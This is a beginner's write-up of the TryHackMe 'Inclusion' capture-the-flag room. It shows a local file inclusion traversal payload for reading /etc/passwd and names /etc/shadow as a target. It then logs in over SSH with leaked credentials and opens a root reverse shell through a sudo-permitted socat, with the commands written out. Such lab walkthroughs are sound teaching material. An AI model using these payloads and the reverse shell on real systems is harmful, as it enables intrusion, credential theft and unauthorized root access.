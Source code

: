 ```yaml
---
title: Inclusion Writeup
date: 2020-03-2
description: A beginner-friendly writeup on TryHackMe's Inclusion challenge. 
tags:
  - Writeup
  - TryHackMe
  - Security
banner: ./defence-against-the-dark-arts.jpg
---
```


## Introduction

This challenge on [TryHackme.com](http://tryhackme.com) focuses on Local File Inclusion attack. Local File Inclusion is when the attacker tricks the web application into exposing or running files on the webserver. 

Room Link: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion)

## Resources used

- Nmap
- GTFObins
- Kali VM

## Writeup

### Enumeration

The first and foremost step in any attack is an enumeration. So, gather data about the services running using a **Nmap** scan. 

![Inclusion/1.png](1.png)

From the scan results, we can derive that 2 services are running:

- SSH
- HTTP

### Web Recon

Let's poke at the Webserver and see it's contents.

![Inclusion/2.png](2.png)

It seems to be a blog. Explore it and see if anything is interesting to focus on. 

### Local File Inclusion

The pages takes in a parameter to the server to display the webpage. Tampering this may disclose files in the webserver causing a LFI attack if the application does not whitelist which files can be included.

![Inclusion/3.png](3.png)

Common files to look for : 

- /etc/passwd - View usernames of all users on a system
- /etc/shadow - View hashed passwords of all users on the system
- /etc/hosts - View other devices the webserver is communicating with.

and so much more if you're clever. 

**You can combine this with Directory traversal to access the file you want.** 

    >> website.com/article?name=../../../etc/passwd 

The passwd file has been exposed. In this, we can observe the users present in the system. 

![Inclusion/4.png](4.png)

There is a user named *falconfeast.* The interesting part is that there is a comment which possibly seems like a username and password. Keep in mind, this is a very rare occasion of having the password in the comment, which I believe is deliberately has been done by the creator of the room. After all this room is to understand the basics of LFI. 

### Entering the Web Server

Let's assess the situation.

- There are a username and password available
- There is an SSH present in the webserver

So, the next step is to try logging in to the server using SSH. 

    >> ssh falconfeast@rootpassword 

![Inclusion/5.png](5.png)

After logging in the directory has a user.txt file that contains the ***user flag!*** 

Observing the placement of the user.txt, it would be safe to assume the root flag would be in /root folder.

![Inclusion/6.png](6.png)

Unfortunately, neither the privilege cannot be escalated nor the /root folder can be accessed directly. But, have a look at the command allowed for *falconfeast* using :

    >> sudo -l

![Inclusion/7.png](7.png)

It mentions that the user is allowed to run /usr/bin/socat as root with no password required. 

> Socat is a command-line based utility that establishes two bidirectional byte streams and transfers data between them.

To learn how this can be abused, check [GTFOBins](https://gtfobins.github.io/). 

> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

From that, it is confirmed that a [reverse shell](https://gtfobins.github.io/gtfobins/socat/) is possible. 

### Abusing Socat

On your machine run:

    >> socat file:`tty`,raw,echo=0 tcp-listen:12345

And on the LFI machine, run : 

    >> RHOST= <your ip address> 
    >> RPORT=12345
    >> socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane

![Inclusion/8.png](8.png)

Once you run the command on the LFI machine, the reverse shell must have been successfully created and you can access the machine as *root*. 

To confirm it, run:

    >> id  #this would print the real and effective user and group IDs.

Then move into /root folder and list out the items in it. 

![Inclusion/9.png](9.png)

The root.txt is present here with the ***root flag!** (Now you can pat yourself :p )*

---

### The Unintentional Way

There is another easy way to read the user and root flag, but I don't think it was the intended way but I would still love to share it.

The flags can be accessed directly through the URL if you are familiar with the location of the flags. 

![Inclusion/10extra.png](10extra.png)

User Flag

![Inclusion/11extra.png](11extra.png)

Root Flag

## Final Thoughts

This room is not only a good experience for anyone looking to learn about LFI but also introduces the concept of privilege escalation using Unix Binaries and reverse shells. 

I will be trying other rooms at TryHackMe and posting my writeups too. So watch out this space for more awesome content.

---

If you like my content, let me know on Twitter: [https://twitter.com/swsjona](https://twitter.com/swsjona)

**Further Reading** 

[What is Local File Inclusion (LFI)? | Acunetix](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

[Local File Inclusion](https://blog.tryhackme.com/lfi/)